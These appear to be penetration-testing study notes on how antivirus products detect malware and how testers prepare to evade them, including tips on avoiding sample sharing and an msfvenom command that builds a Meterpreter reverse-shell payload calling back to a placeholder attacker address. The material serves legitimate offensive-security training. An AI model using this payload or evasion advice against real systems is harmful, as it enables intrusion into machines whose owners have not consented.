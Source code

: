 

Originally designed to remove viruses, AV's typically include firewalls, site scanners, etc.  

[https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)  
[https://web.archive.org/web/20210317102554/https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf](https://web.archive.org/web/20210317102554/https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)

# Modern AV Components

Designed around following components:
## File Engine
- Responsible for scheduled & real-time file scans.
	- Scheduled
		- Parses the entire file system and sends each file's metadata or data to signature engine
	- Real-time
		- Involves detecting & (possibly) reacting to any new file action
			- IE: Downloading new malware from a site.
		- Need to ID events at the kernel level via a *mini-filter driver*

## Memory Engine
- Inspects each process' memory space at runtime for well-known binary signatures or sus API calls (for memory injection attacks)

## Network Engine
- Inspects incoming and outgoing network traffic on the local nic
- Once signature is matched, might attempt to block the malware from comm'ing w/ its C2

## Disassembler
- Translates machine code into assembly, restructures the original program code section, and IDs any encoding/ decoding routine.
- Utilizes a sandbox or emulator for thorough analysis against any known signature

## Browser Plugin
- Browsers are protected by the sandbox, modern AVs often use browser plugins to get better visibility and detect malicious content that might be executed inside the browser.

## ML Engine
- Enables detection of unknown threats by relying on cloud-enhanced computing resources and algorithms



# Detection Methods
Since antivirus software vendors use different signatures and proprietary tech for detection,  
and each vendor updates their databases constantly, it's usually difficult to come up with a catch-all antivirus evasion solution.  
Quite often, this process is based on a trial-and-error approach in a test environment.  
  
So, ID the presence, type, & version of the deployed antivirus software before considering a bypass strategy.  
  
If the client network or system implements antivirus software, we should gather as much information as possible  
and replicate the configuration in a lab environment for AV bypass testing before uploading files to the target machine.  

## Signature-based
- Mostly considered a *restricted list technology*
	- Filesystem is scanned for KM signatures &, if detected, quarantines the file.
- Detects based on file hash or continuous sequence of bytes w/in the malware that uniquely ID's it.  
- Blocklisting  
	- Easy to bypass by changing/ obfuscating the contents
		- Ex: changing upper to lowercase completely changes the hash
  
## Heuristic-based
- Relies on various rules & algorithms to determine whether or not an action is considered malicious.  
- Steps through instruction set or attempts to de-compile & looks for malicious patterns/ program calls
- Doesn't rely on signatures so can detect Unknown or altered KM
  
## Behavior-based 
- Dynamically analyzes the behavior of the file.  
- Executes w/in an emulated env & looks for malicious actions  
- Doesn't rely on signatures so can detect Unknown or altered KM

## Machine Learning-based
- Uses ML algorithms to detect unknown threats by collecting and analyzing additional metadata
	- Ex: Microsoft Windows Defender has two ML components
		- Client ML engine
			- Responsible for creating ML models and heuristics
		- Cloud ML engine
			- Capable of analyzing the submitted sample against a metadata-based model comprised of all the submitted samples.
		- Whenever the client ML engine is unable to determine whether a program is benign or not, it will query the cloud ML counterpart for a final response.


# Malware Submission

Should be used as a last resort when we don't know the specifics of our target's AV vendor.
If we do know those specifics on the other hand, we should build a dedicated VM that resembles the customer environment as closely as possible

Another rule of thumb we should follow when developing AV bypasses is to always prefer custom code.
AV signatures are extrapolated from the malware sample and thus, the more novel and diversified our code is, the fewer chances we have to incur any existing detection.

## VirusTotal

Issue with VT is that once you upload your malware and it's analyzed, the signature is shared with all of the AV vendors so they can sandbox it and build their own detections for it, rendering it unusable


## AntiScan.Me

Scans our sample against 30 different AV engines and claims to not divulge any submitted sample to third-parties
- Only offers 4 scans a day
- Doesn't support *.ps1*


## Windows

Windows utilizes an _Automatic Sample Submission_ to its ML engine which can be disabled
	_Windows Security_ > _Virus & threat protection_ > _Manage Settings_ and deselecting the relative option


### Example & Test AV
- Create a Meterpreter payload:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > binary.exe
```

- Upload to VirusTotal:  
	** Convenient but generates a hash for each unique submission, which is then shared with all participating AV vendors.  
	  As such, take care when submitting sensitive payloads as the hash is essentially considered public from the time of first submission.

![[virus-total-bad.png]]

- Use **nc** OR
```bash
python3 -m http.server 80
```
	to upload to Windows client  
  
- Install Avira on Win client:
```powershell
 C:\Tools\antivirus_evasion\
```

- Turn _Real_-_Time Protection_ on  
  
- Attempt to run _**binary.exe**_
	![[avira-alert.png]]

AV evasion falls into two broad categories: [on-disk](14.2%20-%20Bypassing%20AV%20Detections.md#On-Disk) and [in-memory](14.2%20-%20Bypassing%20AV%20Detections.md#In-Memory).
  
Given the maturity of AV file scanning, modern malware often attempts **in-memory** operation, avoiding the disk entirely and therefore reducing the possibility of being detected.  

